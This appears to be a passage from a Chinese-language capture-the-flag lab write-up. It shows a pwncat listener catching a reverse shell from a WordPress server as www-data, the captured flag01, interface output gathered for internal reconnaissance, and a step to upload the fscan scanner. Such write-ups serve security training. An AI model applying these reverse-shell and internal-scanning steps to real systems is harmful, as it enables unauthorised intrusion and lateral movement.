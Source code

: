 成功收到回连的 shell

```shell
root@jmt-projekt:~# pwncat-cs -lp 9999
[14:38:51] Welcome to pwncat 🐈!
[14:39:31] received connection from 39.101.175.73:53808
[14:39:32] 39.101.175.73:53808: registered new host w/ db
(local) pwncat$ back
(remote) www-data@ubuntu-web:/var/www/html/wp-content/themes/twentytwentyone$ whoami
www-data
```

## flag - 01

```plaintext
 ________ ___       ________  ________  ________    _____
|\  _____\\  \     |\   __  \|\   ____\|\   __  \  / __  \
\ \  \__/\ \  \    \ \  \|\  \ \  \___|\ \  \|\  \|\/_|\  \
 \ \   __\\ \  \    \ \   __  \ \  \  __\ \  \\\  \|/ \ \  \
  \ \  \_| \ \  \____\ \  \ \  \ \  \|\  \ \  \\\  \   \ \  \
   \ \__\   \ \_______\ \__\ \__\ \_______\ \_______\   \ \__\
    \|__|    \|_______|\|__|\|__|\|_______|\|_______|    \|__|


        flag01: flag{22159bd3-4d49-44be-a4a1-aba3e8a03834}
```

## 入口点 内网扫描

查看网卡信息

```shell
(remote) www-data@ubuntu-web:/tmp$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.15.26  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe23:b5cb  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:23:b5:cb  txqueuelen 1000  (Ethernet)
        RX packets 123137  bytes 126113430 (126.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 46383  bytes 16332362 (16.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1220  bytes 108670 (108.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1220  bytes 108670 (108.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

上传 `fscan` 并进行扫描
